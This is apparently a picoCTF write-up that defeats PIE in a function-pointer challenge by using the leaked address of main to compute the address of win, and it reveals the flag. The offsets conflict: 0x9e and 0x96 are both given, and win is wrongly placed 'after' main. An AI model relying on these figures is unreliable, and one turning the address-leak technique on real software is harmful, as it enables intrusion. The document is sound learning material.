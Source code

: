 ## 👉 Initial Reconnaissance 🔍
First, I downloaded the source and binary to understand what we're dealing with. Ran a quick test:

nc rescued-float.picoctf.net 54167\
Address of main: 0x57a71a42a33d\
Enter the address to jump to, ex => 0x12345: 0x12345 \
Your input: 12345\
Segfault Occurred, incorrect address.

## 👉 Source Code Analysis 📋
Looking at the source:

int main() {\
  signal(SIGSEGV, segfault_handler);\
  setvbuf(stdout, NULL, _IONBF, 0);\
  printf("Address of main: %p\n", &main);  // 🎯 FREE ADDRESS LEAK!\
  unsigned long val;\
  printf("Enter the address to jump to, ex => 0x12345: ");\
  scanf("%lx", &val);\
  void (*foo)(void) = (void (*)())val;\
  foo();  // Jump to whatever address we provide\
}

This is a classic function pointer exploitation, but with PIE enabled so addresses change each run.


## 👉 Finding the Offset 📐
Used GDB to find the static addresses:

(gdb) disas main\
   0x0000000000401271 <+0>:	push

(gdb) disas win\
   0x00000000004011db <+0>:	push 

## 👉 Offset calculation: 0x401271 - 0x4011db = 0x96
So win() is 0x96 bytes after main() in memory.


## 👉 The Solution Strategy 🎯
Since the program gives us main's runtime address:
1. Take the provided main address
2. Subtract 0x9e to get win address
3. Enter that address when prompted


## 👉 Exploitation 🚀

Runtime example:\
Address of main: 0x6254c958533d

Calculation:\
win_address = main_address - 0x96\
win_address = 0x6254c958533d - 0x96 = 0x6254c95852a7

Final input:\
Enter the address to jump to, ex => 0x12345: 0x6254c95852a7\
You won!\
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_6f4e7236}
